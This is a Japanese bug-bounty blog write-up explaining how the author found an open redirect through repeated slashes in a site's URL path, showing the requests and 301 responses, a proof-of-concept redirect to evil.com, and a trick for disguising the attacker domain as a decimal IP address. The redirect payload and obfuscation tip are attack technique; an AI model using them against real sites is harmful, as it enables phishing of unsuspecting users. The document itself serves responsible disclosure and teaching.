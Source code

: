 ```yaml
---
description: とある企業の非公開報奨金制度でRequest-URIのパスからのオープンリダイレクトを発見した。その検出に至るまでの手順が興味深く、HackerOneのレポートにも類似の挙動は見当たらなかったため、詳細をまとめておく。
---
```


# Request-URIのパスからのオープンリダイレクト 実践編

<time datetime="2018-12-17">Dec 17, 2018</time>

---

とある企業の非公開報奨金制度で[Request-URIのパスからのオープンリダイレクト](/2018/open_redirect_via_path.md)を発見した。その検出に至るまでの手順が興味深く、HackerOneのレポートにも類似の挙動は見当たらなかったため、詳細をまとめておく。

対象サイトのトップにアクセスした際の正常なレスポンスは以下である。パスの値によるレスポンスの変化を手掛かりに脆弱性を発見した。

hxxps://www[.]example.com/

```http
HTTP/1.1 200 OK
...
<title>Example Domain</title>
```

## 検出手順

まず、任意のパスに `GET /xxx HTTP/1.1` でリクエストすると、トレイリングスラッシュを追加するリダイレクトが発生する。

hxxps://www[.]example.com/xxx

```http
HTTP/1.1 301 Moved Permanently
...
Location: /xxx/
```

つぎに、ドメイン直後のスラッシュを2つにして `GET //xxx HTTP/1.1` でリクエストするも、レスポンスに変化は見られない。

hxxps://www[.]example.com//xxx

```http
HTTP/1.1 301 Moved Permanently
...
Location: /xxx/
```

しかし、スラッシュを3つにして `GET ///xxx HTTP/1.1` でリクエストすると、トップへのリダイレクトが発生する。

hxxps://www[.]example.com///xxx

```http
HTTP/1.1 301 Moved Permanently
...
Location: /
```

また、トレイリングスラッシュを追加して `GET ///xxx/ HTTP/1.1` でリクエストすると、トップのコンテンツが返る。

hxxps://www[.]example.com///xxx/

```http
HTTP/1.1 200 OK
...
<title>Example Domain</title>
```

さらに、トレイリングスラッシュの直後に `zzz` を追加すると、上位階層の `xxx` を無視したリダイレクトとなる。

hxxps://www[.]example.com///xxx/zzz

```http
HTTP/1.1 301 Moved Permanently
...
Location: /zzz/
```

そこで、`zzz` の直前のスラッシュを2つにしてリクエストすると、レスポンスのLocationヘッダの先頭に `//` を挿入できた。

hxxps://www[.]example.com///xxx//zzz

```http
HTTP/1.1 301 Moved Permanently
...
Location: //zzz/
```

## 実証

Locationヘッダに `//` から始まるスキームを省略した形式の絶対パスを挿入することで、外部サイトへのリダイレクトが発生する。

hxxps://www[.]example.com///xxx//evil.com

<figure><img src="/assets/2018/practical_open_redirect_via_path/open_redirect.webp" width="770" height="204" decoding="async" alt="" /></figure>

上記のURLには攻撃者の所有するドメインが含まれているため、警戒心の強い被害者は不信感を抱く可能性が高い。固定IPアドレスが振られたドメインであれば整数変換により難読化できる。例えば `evil.com` のIPアドレス `66.96.146.129` は `1113625217` に変換できる<sup id="f1">[¹](#fn1)</sup> <sup id="f2">[²](#fn2)</sup>。パスに含まれる階層 `xxx` は任意の文字列に置き換えられるため、攻撃者は対象サイトの特性に合わせて以下のようなURLに偽装することで被害者を誘導できるだろう。

hxxps://www[.]example.com///articles//1113625217/index.html

```http
HTTP/1.1 301 Moved Permanently
...
Location: //1113625217/index.html/
```

## 所感

Request-URIのパスからの入力に起因する脆弱性の検出は、サイト仕様の把握やアカウント作成などの事前準備が不要なため、気軽に調査を開始できる。今回は `//xxx` と `///xxx` のレスポンスの差異に気付けたため、その挙動をオープンリダイレクトにつなげられた。気軽に何も考えずにスラッシュを3つ入力したことが要因となった。

発見した脆弱性はサイト運営会社の報奨金制度へ報告した。Severity（深刻度）はLowと評価されたため報奨金は$100〜$500になる見込み。さらにスコープ内の他4つのドメインでも同様の脆弱性を発見し、それぞれ認定されている。少額な脆弱性も横展開できるとおいしい。

---

<sup id="fn1">[¹](#f1)</sup> DNSの逆引きができないため、実際には `1113625217` にアクセスしても `evil.com` は表示されない。一例として記載する。  
<sup id="fn2">[²](#f2)</sup> 変換後のIPアドレスは[How to Obscure Any URL](http://www.pc-help.org/obscure.htm)を参考に `66 * 256 + 96 = * 256 + 146 = * 256 + 129 =` で求めた。
